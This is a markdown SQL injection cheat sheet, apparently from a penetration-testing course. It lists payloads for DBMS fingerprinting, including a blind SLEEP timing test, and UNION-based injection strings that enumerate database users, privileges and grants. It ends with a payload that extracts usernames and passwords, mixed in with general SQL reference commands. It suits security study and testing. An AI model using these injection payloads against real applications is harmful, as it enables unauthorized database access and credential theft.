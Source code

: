 ## Fingerprinting
Payload	When to Use	Expected Output	Wrong Output  
```sql
SELECT @@version	When we have full query output	MySQL Version 'i.e. 10.3.22-MariaDB-1ubuntu1'	In MSSQL it returns MSSQL version. Error with other DBMS.  
SELECT POW(1,1)	When we only have numeric output	1	Error with other DBMS  
SELECT SLEEP(5)	Blind/No Output	Delays page response for 5 seconds and returns 0.	Will not delay response with other DBMS  
```

## Find User
```sql
SELECT USER()  
SELECT CURRENT_USER()  
SELECT user from mysql.user  
cn' UNION SELECT 1, user(), 3, 4-- -  
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -  
SELECT super_priv FROM mysql.user  
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -  
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges-- -  
```

## SQL Queries
```sql
CREATE DATABASE <dbname>;  
SHOW DATABASES;  
CREATE TABLE <tablename>(id INT,username VARCHAR(100),password VARCHAR(100),date_of_joining DATETIME);  
SHOW TABLES;  
DESCRIBE <tablename>;  
INSERT INTO <tablename> VALUES (column1_value, column2_value, column3_value, ...);  
INSERT INTO <tablename>(column2, column3, ...) VALUES (column2_value, column3_value, ...);  
SELECT * FROM <tablename>;  
SELECT column1, column2 FROM <tablename>;  
DROP TABLE <tablename>;  
ALTER TABLE <tablename> ADD newColumn INT;  
ALTER TABLE <tablename> RENAME COLUMN newColumn TO oldColumn;  
ALTER TABLE <tablename> MODIFY oldColumn DATE;  
ALTER TABLE <tablename> DROP oldColumn;  
UPDATE <tablename> SET column1=newvalue1, column2=newvalue2, ... WHERE <condition>;  
SELECT * FROM <tablename> ORDER BY password DESC;  
SELECT * FROM <tablename> ORDER BY password DESC, id ASC;  
SELECT * FROM <tablename> LIMIT 2;  
SELECT * FROM <tablename> LIMIT 1, 2;  
SELECT * FROM <tablename> WHERE <condition>;  
SELECT * FROM logins WHERE username LIKE 'admin%';  
SELECT * FROM logins WHERE username like '___';  
SELECT 1 = 1 AND 'test' = 'test';  
SELECT 1 = 1 OR 'test' = 'abc';  
SELECT NOT 1 = 1;  
SELECT 1 = 1 && 'test' = 'abc';  
SELECT 1 = 1 || 'test' = 'abc';  
SELECT 1 != 1;  
SELECT * FROM <tablename> UNION SELECT * FROM <tablename2>;  
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '  
```
